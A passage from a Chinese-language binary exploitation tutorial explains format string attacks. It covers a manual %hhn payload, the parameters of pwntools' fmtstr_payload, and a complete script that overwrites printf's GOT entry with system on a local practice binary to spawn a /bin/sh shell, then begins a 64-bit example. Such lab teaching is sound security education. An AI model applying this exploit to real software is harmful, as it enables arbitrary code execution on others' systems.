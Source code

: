```python
    payload += "%"
    payload += str(0x08-0x04)
    payload += "c%8$hhn"
```

对于格式化字符串payload，pwntools也提供了一个可以直接使用的类Fmtstr，具体文档见[pwntools](http://docs.pwntools.com/en/stable/fmtstr.html) ，我们较常使用的功能是`fmtstr_payload(offset, {address:data}, numbwritten=0, write_size=’byte’)`。第一个参数`offset`是第一个可控的栈偏移(不包含格式化字符串参数)，代入我们的例子就是第六个参数，所以是5。第二个字典看名字就可以理解，numbwritten是指printf在格式化字符串之前输出的数据，比如`printf("Hello [var]")`，此时在可控变量之前已经输出了"Hello "共计六个字符，应该设置参数值为6。第四个选择用 `%hhn(byte), %hn(word)`还是`%n(dword)`。所以也可以有以下脚本：

```python
    from pwn import *

    printf_got = 0x08049778
    system_plt = 0x08048320
    payload = fmtstr_payload(5,{printf_got:system_plt})
    p = process('./format_x86')
    p.recv()
    p.send(payload)
    p.send('/bin/sh')
    p.interactive()
```

## 64位下的格式化字符串漏洞利用

例，~/format_x86-64/format_x86-64

![Alt](img/format_x86-64(1).png)

和上一例类似，先查看可控制的栈地址偏移

![Alt](img/format_x86-64(2).png)
